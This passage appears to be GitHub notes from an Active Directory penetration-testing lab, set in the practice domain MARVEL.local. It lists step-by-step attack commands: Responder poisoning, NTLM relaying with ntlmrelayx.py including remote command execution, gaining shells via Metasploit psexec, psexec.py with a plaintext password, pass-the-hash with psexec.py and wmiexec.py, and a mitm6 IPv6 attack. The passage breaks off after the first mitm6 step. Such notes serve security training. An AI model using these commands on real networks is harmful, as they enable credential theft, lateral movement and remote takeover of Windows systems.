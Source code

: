 2.Open responder:
```bash
responder -I tun0 -dwPv 
```

3.Make configurations for responder tool here, '/etc/responder/Responder.conf'
You need to **disable** (make OFF) HTTP and SMB

4.Set up your relay
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

5.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```

Reminder! Run commands via ntlmrelayx.py
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

Gaining Shell Access=>

First Way:
We can use Metasploit for this.
```bash
use exploit/windows/smb/psexec
set SMBDomain MARVEL.local
set SMBUser fcastle
set SMBPass Password1
```

Second Way:
We can use psexec.py to access
```bash
psexec.py marver.local/fcastle:'Password1'@10.0.0.25
```

Third way:
Again, we use psexec.py to access , but with user's hashes (LM:NT), it is like Pass-The-Hash attack
```bash
psexec.py administrator@10.0.0.25 --hashes [LM-HASH]:[NTLM-HASH]
```

Fourth Way:
If psexec.py doesn't work for third way,
you need to use **wmiexec.py** as below.
```bash
wmiexec.py administrator@192.168.138.137 --hashes [LM-HASH]:[NTLM-HASH]
```


IPv6 attacks=>

1.Open **mitm6** for target domain
```bash
sudo mitm6 -d marvel.local
```
